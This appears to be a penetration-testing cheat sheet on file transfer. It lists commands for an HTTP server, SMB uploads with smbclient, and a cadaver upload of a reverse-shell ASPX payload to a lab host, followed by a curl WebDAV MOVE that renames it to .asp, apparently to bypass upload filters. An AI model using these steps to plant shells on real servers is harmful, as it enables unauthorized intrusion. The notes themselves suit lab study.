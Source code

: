 # File Transfer

### HTTP Server

> python -m SimpleHTTPServer 8000

> python3 -m http.server 8000


### SMB File Upload

**Method 1: Cadaver**

```
cadaver http://10.11.1.13/scripts/
put /root/Desktop/shellLER/phpReverseShell/aspunstage.aspx
```

**Method 2: Smbclient**

```
$ smbclient //server/share -c 'cd c:/remote/path ; put local-file'
```
Second example
```
smbclient -W ENGR_STUDENT -U EngrID //hnas.engr.uconn.edu/EngrGroupMixed
get <somethingRecieve>.tgz
put <somethingSend>.tgz
```

**Method 3: CURL**

Change file name with MOVE method. aspx -> asp

```
curl -X MOVE --header    "Destination:http://10.11.1.13/scripts/aspunstaged.asp" "http://10.11.1.13/scripts/aspunstaged.aspx"
```
